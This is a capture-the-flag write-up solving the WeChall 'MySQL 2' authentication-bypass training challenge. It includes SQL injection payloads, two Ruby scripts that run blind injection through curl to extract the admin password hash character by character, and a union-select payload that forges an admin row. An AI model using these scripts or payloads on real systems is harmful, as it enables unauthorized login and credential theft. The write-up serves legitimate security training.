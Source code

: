 # [Training: MySQL 2](https://www.wechall.net/challenge/training/mysql/auth_bypass2/index.php)

This time the query is only looking for username and returning the password so that it 
can be checked later in the code. So we can't just ignore the password check. We need to 
get the password for admin.

We can test usernames for existence though. So we can come up with some trickery to leak the 
password character by character. This is best done with a script. But first let's find the 
length of the password.

After some digging we find that the length of the password is 32:

`admin' and length(password)=32-- ` returns "Wrong Password" instead of "username unknown"

So now we need to script this and bruteforce a 32 character password using the same 
exfiltration technique.

So this script took 27 minutes and got us the password.

```ruby
require 'net/http'

allChars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
pass = ""
32.times do |i|
  allChars.split("").each do |c|
    puts "Password(#{i+1}/32): #{pass}"
    url = "https://www.wechall.net/challenge/training/mysql/auth_bypass2/index.php"
    injection = "username=admin%27+and+substr%28password,1,#{pass.length+1}%29%3D%27#{pass+c}%27--+&password=&login=Login"
    req = `curl "#{url}" -X POST -H 'Cookie: WC=11505220-47569-RrANtBqpJ6O7bYfl' --data '#{injection}'`

    unless req.include? "username is unknown"
      pass += c
      break
    end
    system('clear')
  end
end


puts "Password for admin: #{pass}"
```

But that's literally trying every single character... We can improve 
the speed of this thing using `>` comparison instead of `=` which will 
speed up our script up to 10x.

This script took only 5 minutes!

```ruby
require 'net/http'

allChars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789".chars.sort
pass = ""
url = "https://www.wechall.net/challenge/training/mysql/auth_bypass2/index.php"

32.times do |i|
  charset = allChars
  while charset.length > 1
    curr = (charset.length - 1) /2
    char = charset[curr]
    puts "Password(#{i+1}/32): #{pass}, Testing: #{char}"
    injection = "username=admin%27+and+substr%28password,1,#{pass.length+1}%29"
    # %3E >
    # check if current password substring > pass + char
    injection += "%3E%27#{pass+char}%27--+&password=&login=Login"
    req = `curl "#{url}" -X POST -H 'Cookie: WC=11505220-47569-RrANtBqpJ6O7bYfl' --data '#{injection}'`

    if req.include? "username is unknown" # substring is less than or equal
      charset = charset[0..curr]
    else
      charset = charset[(curr+1)..-1]
    end

    system('clear')
  end
  pass += charset[0]
end

puts "Password for admin: #{pass}"
```

You could easily do this same type of brute forcing with tools like 
Burp or Hydra but wasn't scripting our own more fun?

Password is: **b705c94300b6fcbccfae2bb65937fee3**

Too bad the password is an MD5 hash and is apparently pretty strong b/c 
initial attempts to crack it were futile.

So there's got to be a way to do this without actually knowing the admin 
password. Let's look at the source again...

We execute the query: `SELECT * FROM users WHERE username='$username'`

We then check if `$result['password'] !== $password`

We then check if `$result['username'] === 'admin'`

So as long as we return a row that "looks" like it's the admin we could 
use any password we want. For example what if we could force the query 
to return this result:

userid|username|password  
null  |admin   |d6a6bc0db10694a2d90e3a69648f3a03

Where "d6a6bc0db10694a2d90e3a69648f3a03" is the MD5 hash of 'hacker'

Well imagine what this input would do:

`' union select null,'admin','password'-- `

It would be put into our query and return a single row.

userid|username|password  
null  |admin   |password

So we can just use this concept to pass our own MD5 hash:

`' union select null,'admin','d6a6bc0db10694a2d90e3a69648f3a03'-- `

And then put "hacker" in the password box. And boom! We're admin!

Solved.

